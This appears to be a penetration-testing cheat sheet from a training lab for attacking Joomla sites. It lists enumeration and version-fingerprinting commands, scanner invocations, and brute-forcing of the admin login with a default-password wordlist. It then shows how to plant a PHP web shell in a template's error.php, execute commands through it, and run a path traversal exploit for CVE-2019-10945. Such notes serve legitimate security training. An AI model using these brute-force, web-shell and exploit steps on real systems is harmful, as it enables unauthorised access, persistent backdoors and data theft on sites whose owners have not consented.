 **Admin Url**: `http://dev.inlanefreight.local/administrator`
**Vuln Count**: `485 vulnerabilities found`

### Enumeration

**Check Install**

`[!bash!]$ curl -s http://dev.inlanefreight.local/ | grep Joomla`

**Robots.txt**
```
# If the Joomla site is installed within a folder# eg www.example.com/joomla/ then the robots.txt file# MUST be moved to the site root# eg www.example.com/robots.txt# AND the joomla folder name MUST be prefixed to all of the# paths.# eg the Disallow rule for the /administrator/ folder MUST# be changed to read# Disallow: /joomla/administrator/#
# For more information about the robots.txt standard, see:# https://www.robotstxt.org/orig.htmlUser-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

**Version Fingerprinting**

`[!bash!]$ curl -s http://dev.inlanefreight.local/README.txt | head -n 5`

`[!bash!]$ curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -`

**Automated Scanners**

```
[!bash!]**$** droopescan scan joomla --url http://dev.inlanefreight.local/

[!bash!]**$** python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

**Brute Forcing**

**Default user**: `admin`

`[!bash!]$ sudo joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin`

### Attacking

**Code Execution**

`Configuration`> `Templates` > `eg:protostar` > `Templates: Customise` > `error.php` > `system($_GET['cmd']);`

`[!bash!]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id`

**CVE-2019-10945**

- Path Traversal
- https://www.exploit-db.com/exploits/46710
- `[!bash!]$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /`
